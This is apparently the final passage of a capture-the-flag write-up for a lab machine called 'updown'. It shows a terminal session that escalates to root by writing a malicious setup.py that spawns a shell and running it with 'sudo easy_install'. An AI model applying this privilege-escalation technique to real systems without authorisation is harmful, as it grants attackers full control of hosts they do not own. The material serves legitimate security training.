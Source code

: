 ```
developer@updown:~$ cd /tmp/
developer@updown:/tmp$ TF=$(mktemp -d)
developer@updown:/tmp$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:/tmp$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.uxu7JoSg3E
Writing /tmp/tmp.uxu7JoSg3E/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.uxu7JoSg3E/egg-dist-tmp-SX0ArL
# whoami 
root
```

And from there we easily read `root.txt`.

